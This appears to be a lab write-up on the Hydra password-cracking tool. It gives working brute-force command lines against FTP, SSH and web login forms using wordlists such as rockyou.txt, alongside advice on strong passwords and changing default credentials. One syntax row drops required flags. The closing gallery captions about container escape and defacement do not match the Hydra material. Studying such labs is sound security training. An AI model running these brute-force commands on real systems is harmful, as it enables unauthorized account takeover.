

# Hydra 

---

  

Hydra operates as a brute force online password cracking program that automates rapid testing of login credentials against 
authentication services. It iterates through password lists to target protocols such as SSH, web application forms, FTP, or SNMP, 
eliminating the need for manual guessing attempts. According to its official repository, the tool supports brute forcing Asterisk, 
AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, 
HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, 
MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, 
RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, TeamSpeak (TS2), Telnet, 
VMware-Auth, VNC and XMPP. Protocol-specific option details are covered on the Kali Hydra tool page at 
https://www.kali.org/tools/hydra.

This directly illustrates the necessity of strong passwords that exceed eight characters and incorporate special characters, since 
common entries from large lists allow quick compromise. Out-of-the-box applications and devices, including CCTV cameras and web 
frameworks, frequently ship with defaults such as admin paired with password and must be updated immediately upon deployment. 

Hydra ships preinstalled on the AttackBox. Activation starts with the dedicated Start AttackBox button to enable split-screen mode, 
after which the attached target machine deploys via its green Start Machine button and requires up to three minutes to boot fully 
before access at http://<TARGET_IP>. Alternative setups on Ubuntu or Fedora distributions use `apt install hydra` or `dnf install hydra`, 
while the source remains available from the official THC-Hydra repository at https://github.com/vanhauser-thc/thc-hydra. 

Command construction depends entirely on the chosen protocol. FTP targeting pairs a fixed username with a password list file. SSH 
attacks on the deployed machine incorporate username specification, password list path, and a controlled thread count. Web form brute 
forcing requires confirming the request method, typically POST, through browser developer tools or source inspection before assembling
the command with path, credential field mappings, and the exact failure response string.

---

| Description | Code/Command |
|-------------|--------------|
| FTP brute force example with fixed username and password list | hydra -l user -P passlist.txt ftp://<TARGET_IP> |
| SSH command structure for the deployed machine | hydra -l <username> -P <full path to pass> <TARGET_IP> -t 4 ssh |
| Concrete SSH example with root username | hydra -l root -P passwords.txt <TARGET_IP> -t 4 ssh |
| General POST web form brute force syntax | sudo hydra <username> <wordlist> <TARGET_IP> http-post-form "<path>:<login_credentials>:<invalid_response>" |
| Concrete POST login form example | hydra -l <username> -P <wordlist> <TARGET_IP> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V |
| POST web form variant specifying non-default port | hydra -l <username> -P <wordlist> <TARGET_IP> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -s <port> -V |

---

Extracted Tables

**SSH Options**

| Option | Description |
|--------|-------------|
| -l | specifies the (SSH) username for login |
| -P | indicates a list of passwords |
| -t | sets the number of threads to spawn |

**Web Form Options**

| Option | Description |
|--------|-------------|
| -l | the username for (web form) login |
| -P | the password list to use |
| http-post-form | The type of the form is POST |
| <path> | the login page URL, for example, login.php |
| <login_credentials> | the username and password used to log in, for example, username=^USER^&password=^PASS^ |
| <invalid_response> | part of the response when the login fails |
| -V | verbose output for every attempt |

---

### Key Takeaways
- Start the AttackBox with the designated button and deploy the target machine to establish the lab environment at the provided address.
- Launch SSH brute forcing with username, password list path, thread count, and protocol specification for parallel attempts.
- Identify the web form request method and failure indicator string prior to building the http-post-form command using field placeholders.
- Immediately replace any default credentials on live systems to block list-based attacks.
- Form Bruteforce attack:
- hydra -l < username > -P /usr/share/wordlists/rockyou.txt <Target_IP> http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
- SSH Bruteforce attack:
- hydra -l < username > -P /usr/share/wordlists/rockyou.txt <Target_IP> ssh
- SSH Login:
- ssh username@ip_address
- Password:

---

### Gallery 

  <table>
    <tr>
      <td align="center">
      <td align="center"></td>
    </tr>
    <tr>
      <td align="center"><strong>Figure 1a:</strong> Final defacement after container escape</td>
      <td align="center"><strong>Figure 1b:</strong> Restored website after running restoration script</td>
    </tr>
    <tr>
      <td align="center">
      <td align="center"></td>
    </tr>
     <tr>
      <td align="center"><strong>Figure 2a:</strong> Using deployer bash to find the flag</td>
      <td align="center"><strong>Figure 2b:</strong> Incrementing the number on link to find secret code</td>
    </tr>
  </table>

  <table>
    <tr>
      <td align="center">
      <td align="center"></td>
    </tr>
    <tr>
      <td align="center"><strong>Figure 3a:</strong> Final defacement after container escape</td>
      <td align="center"><strong>Figure 3b:</strong> Restored website after running restoration script</td>
    </tr>
  </table>

---

